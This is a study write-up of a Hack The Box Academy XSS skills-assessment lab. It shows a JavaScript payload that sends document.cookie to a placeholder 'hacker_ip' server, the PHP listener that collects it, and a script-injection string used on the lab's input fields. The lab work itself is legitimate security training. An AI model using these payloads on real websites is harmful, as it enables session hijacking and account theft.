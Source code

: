 # Cross-Site Scripting (XSS)  
## Skills Assessment
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

## Questions:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.**Answers:**

## Answers:
### First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```mkdir /tmp/tmpserver```

```cd /tmp/tmpserver```

```nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;```

```nano index.php```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/HTB-Academy-Cross-Site-Scripting-Skills-Assessment/images/php-code.png" >

## Let's start your server

```sudo php -S 0.0.0.0:3333```

### Now let's test the input fields on the target site:

```"><script src=http://hacker_ip:3333/myscript.js></script>```


<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/HTB-Academy-Cross-Site-Scripting-Skills-Assessment/images/inputs.png" >
<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/HTB-Academy-Cross-Site-Scripting-Skills-Assessment/images/php-server.png" >

### Great, it works!

### Let's check our cookie file.

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/HTB-Academy-Cross-Site-Scripting-Skills-Assessment/images/cookie.png" >

## Happy Hacking!

[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)


